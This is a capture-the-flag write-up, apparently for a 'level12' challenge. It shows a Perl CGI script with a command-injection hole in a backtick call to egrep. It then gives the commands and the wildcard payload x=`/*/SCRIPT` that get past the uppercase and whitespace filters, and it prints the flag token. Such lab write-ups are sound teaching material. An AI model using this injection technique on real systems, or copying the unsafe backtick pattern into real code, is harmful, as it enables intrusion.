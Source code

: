 In the folder **home** there is a file **level12.pl** containing :

```perl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
	$nn = $_[1];
	$xx = $_[0];
	$xx =~ tr/a-z/A-Z/;						# Put in uppercase
	$xx =~ s/\s.*//;						# Deletes all \s\t\r\n
	@output = `egrep "^$xx" /tmp/xd 2>&1`;
	foreach $line (@output) {
		($f, $s) = split(/:/, $line);
		if($s =~ $nn) {
			return 1;
		}
	}
	return 0;
}

sub n {
	if($_[0] == 1) {
		print("..");
	} else {
		print(".");
	}
}
```
We notice in the code that there are "safeties" in relation to the parameter **x**, the latter must be in upper case and without [\s\t\r\n].
So we try to get through these securities by creating a file in **/tmp** in upper case and using wildcards.
We check the rights :

<pre><code>> echo "whoami > /tmp/test" > /tmp/SCRIPT
> chmod 777 /tmp/SCRIPT
</code></pre>
> The **chmod** is important because we must be able to execute /tmp/SCRIPT without using <code>sh</code>

Then we will use the flaw by going to :
<pre>http://IP:4646/?x=`/*/SCRIPT`</pre>
> x takes in value /*/SCRIPT in injection, which thanks to the wildcard gives us /tmp/SCRIPT

> Making a curl here doesn't work, because the rights taken will be those of **level12**

<pre><code>> cat /tmp/test
flag12</code></pre>

The rights are good so we deal with <code>getflag</code>

<pre><code>> echo "getflag > /tmp/test" > /tmp/SCRIPT
> chmod 777 /tmp/SCRIPT
</code></pre>
<pre>http://IP:4646/?x=`/*/SCRIPT`</pre>
<pre><code>> cat /tmp/test
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr</code></pre>
